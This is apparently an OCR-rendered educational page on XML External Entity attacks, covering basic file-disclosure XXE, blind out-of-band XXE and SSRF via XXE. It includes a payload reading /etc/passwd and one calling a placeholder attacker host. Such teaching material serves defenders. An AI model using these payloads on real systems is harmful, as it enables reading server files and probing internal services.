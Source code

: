 # Types of XML External Entity Attacks

XXE vulnerabilities can be exploited in several ways, depending on the target and attack vector. The primary types of XXE attacks include:

## Basic XXE (File Disclosure)
- In a basic XXE attack, the attacker uses an external entity to read sensitive files from the server. This is the most common type of XXE attack and is used to access files like `/etc/passwd`, configuration files, or logs.

### How Basic XXE Works
1. The attacker submits an XML document that defines an external entity referencing a file.
2. The XML parser resolves the entity and returns the file contents in the response.

**Example:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>
  <user>&xxe;</user>
</data>
```

## Blind XXE (No Output)
- In blind XXE, the server does not return the contents of the file in the response, but the attacker can infer success by observing side effects, such as network interactions or timing-based delays.

### How Blind XXE Works
1. The attacker defines an external entity that triggers an out-of-band (OOB) interaction, such as an HTTP request to a server they control.
2. The attacker observes network requests or other side effects to confirm that the XXE attack was successful.

**Example:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY xxe SYSTEM "http://<attacker_ip>/data"> ]>
<data>
  <user>&xxe;</user>
</data>
```

The server makes an HTTP request to the attacker-controlled domain, confirming the success of the XXE attack.

## SSRF via XXE
- An attacker can use XXE to perform Server-Side Request Forgery (SSRF) by tricking the XML parser into making requests to internal services or cloud metadata endpoints (such as AWS).
